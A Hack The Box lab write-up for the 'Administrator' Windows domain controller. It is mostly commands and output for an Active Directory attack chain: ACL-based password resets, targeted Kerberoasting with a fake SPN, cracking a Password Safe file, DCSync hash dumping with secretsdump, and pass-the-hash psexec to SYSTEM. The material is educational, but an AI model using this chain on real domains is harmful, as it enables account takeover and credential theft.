





Administrator
Introduction
Administrator is a medium-level Windows box on Hack The Box, focused on full domain compromise. The machine kicks off with low-privileged creds, pushing you to dig into ACL misconfigurations and user rights abuse to climb the privilege ladder. Along the way, you’ll deal with password resets, credential spraying, and a bit of Kerberoasting, all leading up to DCSync and Domain Admin. A great box to practice real-world Active Directory attack paths without overcomplicating things.
Recon
Initial Port Scan
b4go@parrot-~/HTB/administrator $ nmap -sCV -p- --open -oA administrator 10.10.11.42
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.11.42
Host is up (0.047s latency).
Not shown: 61345 closed tcp ports (conn-refused), 4164 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 23:18:01Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
50713/tcp open msrpc Microsoft Windows RPC
55833/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
55844/tcp open msrpc Microsoft Windows RPC
55849/tcp open msrpc Microsoft Windows RPC
55852/tcp open msrpc Microsoft Windows RPC
55871/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
|_ start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.30 secondsLet's add administrator.htb to our hosts.
b4go@parrot-~/HTB/administrator $ cat /etc/hosts
# Host addresses
127.0.0.1 localhost
127.0.1.1 parrot
10.10.11.42 administrator.htbInitial enumeration
I will start enumerating common ports that can have relevant information
FTP Enumeration
b4go@parrot-~/HTB/administrator $ ftp -pA 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:b4go): olivia
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp> No access
SMB Enumeration
Start with smbmap to see the shares available
b4go@parrot-~/HTB/administrator $ smbmap -H 10.10.11.42 -u olivia -p ichliebedich
[+] IP: 10.10.11.42:445 Name: 10.10.11.42
Disk Permissions Comment
---- ----------- -------
ADMIN$ NO ACCESS Remote Admin
C$ NO ACCESS Default share
IPC$ READ ONLY Remote IPC
NETLOGON READ ONLY Logon server share
SYSVOL READ ONLY Logon server share Next I enumerate each share
b4go@parrot-~/HTB/administrator $ smbclient //10.10.11.42/IPC$ -U olivia
Password for [WORKGROUP\olivia]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*b4go@parrot-~/HTB/administrator $ smbclient //10.10.11.42/NETLOGON -U olivia
Password for [WORKGROUP\olivia]:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Oct 4 21:48:08 2024
.. D 0 Fri Oct 4 21:54:15 2024
5606911 blocks of size 4096. 2059730 blocks availableb4go@parrot-~/HTB/administrator $ smbclient //10.10.11.42/SYSVOL -U olivia
Password for [WORKGROUP\olivia]:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Oct 4 21:48:08 2024
.. D 0 Fri Oct 4 21:48:08 2024
administrator.htb Dr 0 Fri Oct 4 21:48:08 2024
5606911 blocks of size 4096. 2059716 blocks available
smb: \administrator.htb\> cd administrator.htb
smb: \administrator.htb\> ls
. D 0 Fri Oct 4 21:54:15 2024
.. D 0 Fri Oct 4 21:48:08 2024
DfsrPrivate DHSr 0 Fri Oct 4 21:54:15 2024
Policies D 0 Fri Oct 4 21:48:32 2024
scripts D 0 Fri Oct 4 21:48:08 2024
5606911 blocks of size 4096. 2059716 blocks available
smb: \administrator.htb\> I downloaded everything but didn't see anything relevant, let's keep enumerating
RPC Enumeration
b4go@parrot-~/HTB/administrator $ rpcclient -U "administrator/olivia%ichliebedich" 10.10.11.42 -c "enumdomusers"
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]My first thought here is if I would be able to change the password of any of those users but only worked for Michael
rpcclient $> setuserinfo2 michael 23 "Strongpass123!"I logged in but didn't see any relevant in Michael's home directory. So I immediately move to ldap enumeration
LDAP Enumeration
since we have user:password we can enumerate with
b4go@parrot-~/HTB/administrator $ ldapdomaindump -u administrator.htb\\olivia -p 'ichliebedich' administrator.htb
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finishedb4go@parrot-~/HTB/administrator/ldap $ ls
domain_computers_by_os.html domain_computers.html domain_groups.grep domain_groups.json domain_policy.html domain_trusts.grep domain_trusts.json domain_users.grep domain_users.json
domain_computers.grep domain_computers.json domain_groups.html domain_policy.grep domain_policy.json domain_trusts.html domain_users_by_group.html domain_users.htmlThe domain dump provides significant information. We'll begin by enumerating the users.
b4go@parrot-~/HTB/administrator/ldap $ jq '.[].attributes.sAMAccountName[0]' domain_users.json
"emma"
"alexander"
"ethan"
"emily"
"benjamin"
"michael"
"olivia"
"krbtgt"
"Guest"
"Administrator"lets try getuserspns to get service accounts for kerberoasting
b4go@parrot-~/impacket/examples $ python GetUserSPNs.py -dc-ip 10.10.11.42 administrator.htb/olivia:ichliebedich -usersfile /home/b4go/HTB/administrator/ldap/user -request
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)Kerberos relies on time synchronization between client and server. A large time difference causes KRB_AP_ERR_SKEW errors during ticket requests. We have to sync our time with the machine and try again
b4go@parrot-~/impacket/examples $ sudo ntpdate 10.10.11.42
02:46:51.574728 (+0200) +25200.191421 +/- 0.033210 10.10.11.42 s1 no-leap
CLOCK: time stepped by 25200.191421b4go@parrot-~/impacket/examples $ python GetUserSPNs.py -dc-ip 10.10.11.42 administrator.htb/olivia:ichliebedich -usersfile /home/b4go/HTB/administrator/ldap/user -request
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
[-] Principal: emma - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: alexander - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: ethan - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: emily - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: benjamin - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: michael - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: olivia - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$ADMINISTRATOR.HTB$*krbtgt*$88b0dcc1600bbce24a2bf64d$95c3375fa27ee23f68f3d87e18cc09d4ede40fe54ed02e6684857be9acdf0289370943a97e37b46f2c23a49b0719c116886c997a464b6bfb945230b9507147df33bf7a2b54bce635152ed072d0a0d81fd42f4a57f35dafaad815e078c2084407a6295d440816d99590ee37dc79b36ec43db1979eb2e31911b2feefbd47ba8ae5b4ff558cc322b249d2408506d3c8b6d6c056e5ed7b2004e9b49387dbd4237955ef92cba370f0b1454f12bf25e75a1b78e3039ce0fa66af1fd954113ccec3c3960f6fa561ccd1b6acd5802b866271c6466dd7b8a8e53ad839f3f4be9daf84868d3995449f70fa3f0871e67326673ad4010077d735c18ceb90bfe4fc91a0252afb4dda7bf222928b3123afaad6ee064e43757767744cb12247e9cc7e244b2df1474626e5dbb2b108bf4c9b100ed6d6d305de0c0f0ff61e394642244b317605b3ca84f017e7395124d933dcbb6ad75568572b1ed6cdc680dc43dbe9f06900671fce23c7df184d7821e86c374165abdb140715c2ac19bd65c72c27e996dd32158ad498f5e5ce2b82592db5b53871f520666907427a43921fe7edbfca1ebe881a3c3f4b19cafa5499870188c02ee68f2b43ea95e8e8707952b62516ab678214b33b95c7d771c9b439b2189e6b90b24d71aa8377ad35198a2bfefc3e84107931c9dbee2052b9509ed47f6bfc33c6793565981b9d39f3804f972a5ee70f65ff7ca5de840cad41089f7400ed78c53b1b745eee7b683a4458b1bfd5e4cfc1e825775ef6dc3d78284a99d1f783e9483be7aad3de0fcb195dadb745b1ab07bad676b6d66a676e1d280d46aebdb171ef1860e8c74a58baf0aebe678d09672687df62fc98d8d39620aa4576424b112b9e4c0b60db7e783b7bc7a4b7d6c970abdb855f05c598d2f74fe13de27d46c70558f7a4d1c97693092ca9b56012730139bba064bcab67765f3cac12fc7717eacfe16d3726f95e0489ccfe38c11d8929c31acc2bb43cc486ed29e6f68e8f29d5d8109c1cd91d229567c7a1345c3ffd1bb79deecb7bffa0ae4b7e8f99dfd483d5c54a1ca811e2bc1a9a412644bb9969f052e1295fccd313225611555d3bd4943a849ef379ba586213757f16b7cacbeb347d5ad4ab71b2499efbd14d76b43bff554ca3c9e035638f63b5f8a44fc0ec32b7677389b6402d2919427178de3f98ff3adc34ab3e70bb8c656cc334ac1408193c7c48be0e7d7705b8ef492189b6292a1725a6024f2a7a07a8150cc84ba7e1a9886ab82805395017923abee6e55b504d24220679c3684d0dafa56d3118346703b5fd850b8f1d01db31565933e47c5656a032bccc0f0241064de0065461d383dbd4eb087e00b61e59618bf34cc4d728fbbd3b8dffd15fea351ca9058a932811981c4dbe22e09c4b3259d4c9b04e0fbef93f75a796edb6bb59519fc19906cf7dd0202dd6ab55a978a7f66323462290252b12fee38e294c236e59935adf68beedffdd6817997506709753f6d70e1dc0c3e1a6057cb0078ef9a778bbea505d1bef027a2898d673d649065a
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)we can't get anything from here, krbtgt is not crackable, the request for TGS tickets for the users we tried didn't return anything.
BloodHound Enumeration
I proceed to use bloodhound and see if we can get more info.
b4go@parrot-~/HTB/administrator $ nxc ldap administrator.htb -u olivia -p ichliebedich --bloodhound --collection All --dns-server 10.10.11.42
SMB 10.10.11.42 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP 10.10.11.42 389 DC [+] administrator.htb\olivia:ichliebedich
LDAP 10.10.11.42 389 DC Resolved collection methods: trusts, session, dcom, localadmin, psremote, rdp, acl, objectprops, container, group
LDAP 10.10.11.42 389 DC Done in 00M 10S
LDAP 10.10.11.42 389 DC Compressing output into /home/b4go/.nxc/logs/DC_10.10.11.42_bloodhound.zipstart neo4j...
b4go@parrot-~/HTB/administrator $ sudo neo4j console
[sudo] password for b4go:
Directories in use:
home: /usr/share/neo4j
config: /usr/share/neo4j/conf
logs: /etc/neo4j/logs
plugins: /usr/share/neo4j/plugins
...and bloodhound
b4go@parrot-~/HTB/administrator $ bloodhound
(node:2713) electron: The default of contextIsolation is deprecated and will be changing from false to true in a future release of Electron. See https://github.com/electron/electron/issues/23506 for more information
...in bloodhound I will select the user we have credentials(olivia) and check First degree object control in the node info tab.
First degree object control allows us to identify which objects the current user can directly control (e.g., reset passwords, modify attributes, etc.).

as expected we have genericAll rights over michael, that's why we were able to change the password earlier. let's mark michael as owned and check rights as his user.
we have forcechangepassword on benjamin user we can use the michael user to change benjamin password and see what we can do as benjamin
First we must upload powerview.ps1 to the victim machine so we can run Set-DomainUserPassword
*Evil-WinRM* PS C:\Users\michael\Documents> $SecPassword = ConvertTo-SecureString 'Strongpass123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\michael\Documents> $Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\michael', $SecPassword)
*Evil-WinRM* PS C:\Users\michael\Documents> $UserPassword = ConvertTo-SecureString 'Strongp123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\michael\Documents> Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $CredI tried to login with evil-winrm/psexec but it won't work, I went back to check open ports in the machine and I tried ftp again.
b4go@parrot-~/HTB/administrator $ ftp -pA 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:b4go): benjamin
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.Password Safe Extraction
We were able to log in as benjamin, it seems like there is a psafe3 file, I will download it and check.
ftp> ls
200 EPRT command successful.
125 Data connection already open; Transfer starting.
10-05-24 09:13AM 952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************| 952 19.99 KiB/s 00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (19.83 KiB/s)
ftp> exit
221 Goodbye.b4go@parrot-~/HTB/administrator $ file Backup.psafe3
Backup.psafe3: Password Safe V3 databaseIt is a password safe v3 file, we need to install the tool to open the file:
b4go@parrot-~/HTB/administrator $ sudo apt install passwordsafeA master password is needed in order to open it, since keepass2john is a thing I expect a pwsafe2john would be available too.
Let's do it and try to crack it
b4go@parrot-~/HTB/administrator $ pwsafe2john Backup.psafe3 > hash
b4go@parrot-~/HTB/administrator $ /home/b4go/john/run/john hash --format=pwsafe /usr/share/wordlists/rockyou.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 512/512 AVX-512 16x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 5 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 55 candidates buffered for the current salt, minimum 80 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (09:43) 0g/s 17400p/s 17400c/s 17400C/s backu1924..backu1900
Proceeding with wordlist:/home/b4go/john/run/password.lst
Enabling duplicate candidate password suppressor using 256 MiB
tekieromucho (Backu)we have passwords for alexander,emily,emma, we can only access via evil-winrm with emily user
back to bloodhound we check the new owned user emily in first degree object control and we have genericWrite over ethan
let's upload powerview.ps1 again and perform the attack
Setting a fake SPN allows us to request a service ticket (TGS) for the user, making it possible to perform Kerberoasting even if no SPNs were originally configured.
*Evil-WinRM* PS C:\Users\emily\Documents> Import-Module .\powerview.ps1
*Evil-WinRM* PS C:\Users\emily\Documents> $SecPassword = ConvertTo-SecureString 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\emily\Documents> $Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\emily', $SecPassword)
*Evil-WinRM* PS C:\Users\emily\Documents> Set-DomainObject -Credential $Cred -Identity ethan -SET @{serviceprincipalname='nonexistent/service'}
Now display the ticket
*Evil-WinRM* PS C:\Users\emily\Documents> Get-DomainSPNTicket -Credential $Cred -SPN 'nonexistent/service' | fl
Warning: [Invoke-UserImpersonation] powershell.exe is not currently in a single-threaded apartment state, token impersonation may not work.
Warning: [Invoke-UserImpersonation] Executing LogonUser() with user: ADMINISTRATOR.HTB\emily
SamAccountName : UNKNOWN
DistinguishedName : UNKNOWN
ServicePrincipalName : nonexistent/service
TicketByteHexStream :
Hash : $krb5tgs$23$*UNKNOWN$UNKNOWN$nonexistent/service*$1527D3E024CABE07AA7A85638F6B02A2$DFEA67994A289C6F73A3E2E13411369665588AACF6B9E7652518F095B30C3088250E1A55B33A31DEB54C74AA61CC50DA311FE956E55B4DA5C9A289E683100BEC2DFD0D877E978D7
1EA52DC6314E2F85196326156561EDD68695782A81850C07AA355BD2261D25697AF3674F87839466CC118D7EA515C36DA565BA78781DB154AD994DB6ACAEC1161043A1EF511AC991E47411B99468748AB7C9E0B0ED756B5EDA7476413C91F67478CD19D95BFDC2677EAE117D98340E8FC1
468977E678A057CBF33CF54AC2045FBF6CAE0BDFF2EEF24C8DAD451FBF54742F297F7211DF854169F55C6CC17F370F01BF59CFB593F9E1FCC77BD384AAF2E5E1D149221C416EBE1F80B96B80E624CF4E36CD6B5F6C2915DA3CC983BC80C53F98C40CDDD1F37BA4833CCF582B2A1CFA15F0
3AB36DBA901BF0E4A207C396712829F88910A84CC78090004C07E54B7CA0FEAB837B496D36652BD773F5CD552B1DB691AE4C03A4E1C257B35D529CD8CE7F78F65C131966A0DA7CACF5C1CBF5F5DCE31ED197BD53B44978AE0BA3397B82D9483549C26AB9C4F742AD3451AD5782D523C649
89F248674663940E8008924F1B1F9879DD3B4F24EAA9907DE3FF5CCCBE119D8768C9D0B56DAA30407D5D03ADD99FC0DC4D8F8CCD72658D0EC5097207FAD513200DE784A4A40CA0C2212654EF61D20EDB46194534CC3CADDF245F9600366A8F42AD1FB3BF4E785BD5D05DABF65C74D9ABAB
93AA2A7A35A2080F7263AFD7A9BD8BAF5D2EE495DD96E838C576D72498598160AEF814CCCB569135941FD68CF5DFEF0E70225BC94454E85B1487CE83F8E633DF08A398AB07D999E361DF3C13D0ACCC76627C41A858F5D9792BB62C577811039AF0E82698A48347F39F76849535A9CCD225
A780DA158519BFED309365DD41DA004004F73CF118C15B56E5A1B420E3E89F17138948BDEC6CC3B3105187FF4BD780AC1FA00EE6895A32463CB30C8C563B5AA1BEA91E62A2EF17810A33FAAB16C1E83DC206924918466A7397D31B567CFC4BA1243BEC06A361F0EDF7D7E4C5F76505D64A
07718B9029A5297A206586DC99C2DA32C58C79571DE53C769FEB524B3FD3032E4E4AE396CD90A8228B3AC228A7A599258B2706EC35A9735282BD51B0634BAF3D909A85B44B2386CAF3FB64943B6BC4CC009B7B20A971A23918AE13B5866BB44F0562016598557750BAD8E2874D0A1F2330
1E918484444BB41C396782B2590F9AA89FB1A724DE927C0F9289E6FF776D6DA72D006A1FCDB54748DAC739BEF982B93B5B9B84E89220959C80C299C7E0D59433D80F790287E1921C2E3F5F4A8951AAAC7215DACA6CD3DA06DE830C39B5793BBF436EE9418A5A01B5C628A20E27ADF524DA
7822477285E482C8E99CAB1508113723707BC89976A5449230026C01B5121C93C3955B8ABFF634551B71E5DD9186F1A2D10049ABCD3361E483F43B4AD9107F4071577E6468B28F107D1943653321DF6E1FD6F9CC5EA13C6F312E6C405F999AB9B09D8A6B2CB936A089573E3CE77C0F1041
62E0BEFEE265373BA23DE89F0F6AB46A400E420A6150CA5828C3E4FB889618E1F38A52C407A50BF6A75C53681AAF565722608459C95DE7FA48D6B320858F58FFF7F9A3AF231CA55A31154DC85894B7FB3B6B3A1E291806477BCEA769E1F9A642BF416274BFAB0E13668037258A86A3D576
E110E42C321058D
Warning: [Invoke-RevertToSelf] Reverting token impersonation and closing LogonUser() token handleI copied to a file called kerbh, let's crack it
b4go@parrot-~/HTB/administrator $ /home/b4go/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt kerbh
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS-REP etype 23 [MD4 HMAC-MD5 RC4])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
limpbizkit (?)
1g 0:00:00:00 DONE (09:57) 33.33g/s 170666p/s 170666c/s 170666C/s cheska..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.We have no password for user ethan, let's go back to bloodhound to check first degree object control again
I am going to try to leverage access with getchangesall simply with secretsdump
b4go@parrot-~/HTB/administrator $ impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
Impacket v0.11.0 - Copyright 2023 Fortra
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:1b9a8e87602c7f94ec25663d104a6ac7:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:e4a7125654974b1548788723437ada7f:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
...
[*] Cleaning up...Post-exploitation
Admin compromise
We can now log in as administrator
b4go@parrot-~/HTB/administrator $ impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e' -dc-ip 10.10.11.42 administrator@10.10.11.42
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Requesting shares on 10.10.11.42.....
[*] Found writable share ADMIN$
[*] Uploading file ROsCjGHV.exe
[*] Opening SVCManager on 10.10.11.42.....
[*] Creating service jhVA on 10.10.11.42.....
[*] Starting service jhVA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\systemConclusion
